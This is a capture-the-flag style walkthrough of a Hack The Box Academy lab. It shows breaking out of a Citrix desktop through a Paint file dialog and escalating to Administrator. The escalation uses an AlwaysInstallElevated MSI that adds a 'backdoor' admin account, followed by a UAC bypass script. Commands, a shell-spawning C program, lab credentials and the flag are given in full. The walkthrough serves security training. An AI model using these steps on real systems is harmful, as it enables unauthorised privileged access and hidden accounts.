

# HTB Academy — Citrix Breakout & Privilege Escalation

**Author:** [6876h9](https://github.com/6876h9)  
**Platform:** Hack The Box Academy  
**Module:** Windows Privilege Escalation  
**Difficulty:** Medium  
**Target OS:** Windows 7 (6.1.7601)  

---

## Overview

This writeup documents the full exploitation chain for breaking out of a locked-down Citrix desktop environment and escalating privileges to `SYSTEM`/Administrator level. The environment simulates a real-world corporate Citrix deployment with group policy restrictions, UAC, and limited shell access.

**Attack Chain Summary:**

```
RDP Access → Citrix Login → Dialog Box Exploit → CMD Access
→ AlwaysInstallElevated Abuse → Local Admin → UAC Bypass → Administrator
```

---

## Environment

| Property | Value |
|---|---|
| Target IP | `10.129.205.244` |
| Ubuntu VM IP (internal) | `10.13.38.95` |
| Citrix User | `pmorgan` |
| Citrix Domain | `htb.local` |
| RDP User | `htb-student` |

---

## Step 1 — RDP into the Target

```bash
xfreerdp /v:10.129.205.244 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution
```

Inside the RDP session, open Firefox and navigate to:

```
http://humongousretail.com/remote/
```

Login credentials:

```
Username: pmorgan
Password: Summer1Summer!
Domain:   htb.local
```

Click **Default Desktop** and open the downloaded `launch.ica` file to enter the Citrix restricted environment.

---

## Step 2 — Set Up SMB Server on Ubuntu VM

SSH into the Ubuntu VM from the RDP desktop terminal:

```bash
cd ~/Tools
ls
# Bypass-UAC.ps1  Explorer++.exe  PowerUp.ps1  pwn.c  pwn.exe
```

Start the SMB server with root privileges:

```bash
sudo /home/htb-student/.local/bin/smbserver.py -smb2support share $(pwd)
```

The internal IP `10.13.38.95` is reachable from within the Citrix environment.

---

## Step 3 — Break Out of Citrix via Paint Dialog Box

Inside the Citrix desktop:

1. Open **Start Menu** → launch **Paint**
2. Click **File → Open**
3. In the File Name field enter:

```
\\10.13.38.95\share
```

4. Set File Type to **All Files** → press **Enter**
5. Right-click **pwn.exe** → **Open**

A `cmd.exe` window spawns. `pwn.exe` is a minimal compiled binary:

```c
#include <stdlib.h>
int main() {
    system("C:\\Windows\\System32\\cmd.exe");
}
```

> **Note:** Direct UNC paths to an external Pwnbox (`10.10.14.x`) are blocked by the Citrix environment. The Ubuntu VM's internal interface (`10.13.38.95`) must be used instead.

---

## Step 4 — Transfer Tools to Desktop

From the spawned CMD:

```cmd
cd C:\Users\pmorgan\Desktop
copy \\10.13.38.95\share\PowerUp.ps1 C:\Users\pmorgan\Desktop\PowerUp.ps1
copy \\10.13.38.95\share\Bypass-UAC.ps1 C:\Users\pmorgan\Desktop\Bypass-UAC.ps1
```

---

## Step 5 — Confirm AlwaysInstallElevated Misconfiguration

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Expected output:

```
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Both keys set to `0x1` confirms the vulnerability.

---

## Step 6 — Generate Malicious MSI via PowerUp

```cmd
powershell -ep bypass
```

```powershell
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```

This generates `UserAdd.msi` on the Desktop. Execute it:

```cmd
msiexec /i C:\Users\pmorgan\Desktop\UserAdd.msi
```

In the dialog, create a backdoor administrator account:

```
Username: backdoor
Password: T3st@123
Group:    Administrators
```

---

## Step 7 — Spawn Shell as Backdoor Admin

```cmd
runas /user:backdoor cmd
# Password: T3st@123
```

A new CMD window opens running as `VDESKTOP3\backdoor`.

---

## Step 8 — Bypass UAC

Copy `Bypass-UAC.ps1` to a writable public location (direct copy from Desktop fails due to permissions):

```cmd
copy \\10.13.38.95\share\Bypass-UAC.ps1 C:\Users\Public\Bypass-UAC.ps1
cd C:\Users\Public
powershell -ep bypass
```

```powershell
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

An elevated PowerShell window spawns.

---

## Step 9 — Capture the Flag

In the elevated PowerShell window:

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```



**Flag:** `Citr!x_3sCGp3_@dm!n`

---

## Vulnerability Summary

| Vulnerability | Detail |
|---|---|
| Citrix Dialog Box Escape | UNC path in Paint File Open dialog bypasses GPO folder restrictions |
| AlwaysInstallElevated | Both HKCU and HKLM keys set to `0x1`, allows MSI to install with SYSTEM privileges |
| Weak UAC Configuration | UacMethodSysprep bypass succeeds, grants full administrative token |

---

## Tools Used

| Tool | Purpose |
|---|---|
| `pwn.exe` | Custom binary to spawn `cmd.exe` from restricted environment |
| `PowerUp.ps1` | PowerSploit module for identifying privilege escalation vectors |
| `Bypass-UAC.ps1` | UAC bypass via `UacMethodSysprep` method |
| `impacket-smbserver` | SMB share to serve tools into the Citrix environment |

---

## References

- [HTB Academy — Windows Privilege Escalation](https://academy.hackthebox.com)
- [PowerSploit — PowerUp](https://github.com/PowerShellMafia/PowerSploit)
- [Breaking out of Citrix Environments](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)
